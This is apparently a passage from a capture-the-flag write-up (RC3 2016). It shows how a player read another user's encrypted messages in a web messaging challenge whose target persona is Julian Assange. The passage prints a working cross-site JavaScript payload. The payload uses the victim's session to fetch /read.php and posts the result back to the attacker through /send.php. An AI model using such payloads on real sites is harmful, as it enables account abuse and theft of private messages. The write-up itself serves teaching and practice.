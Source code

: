 We need :

- The pincode to gain access to view the encrypted messages.
- The PGP private key to decrypt the encrypted messages.
- The passphrase for the private key.
- JUlian Assange's session cookie

We can create a script to view the list of encrypted messages.

```txt
function send_back(data) {
  var req = new XMLHttpRequest();
  req.open("POST", "http://54.172.225.153/send.php");
  req.setRequestHeader("Content-type","application/x-www-form-urlencoded");
  req.send("encMessage=" + encodeURIComponent(data) + "&toID=8&subject=Test&origMessage=");
}

var req = new XMLHttpRequest();
req.onreadystatechange=function() {
  if(req.readyState==4) {
    send_back(req.responseText)
  }
}

req.withCredentials = true;
req.open('GET','http://54.172.225.153/read.php');
req.send(null);
```

When Julian Assange will view our message, he will send an ajax request to `/read.php`. We then take the response from that ajax request
and send it back to us via `/send.php`.

Now if we check our unread messages on our account, we see a new message from Julian Assange!

![result](/assets/img/rc3-2016/xsrf_result.png)
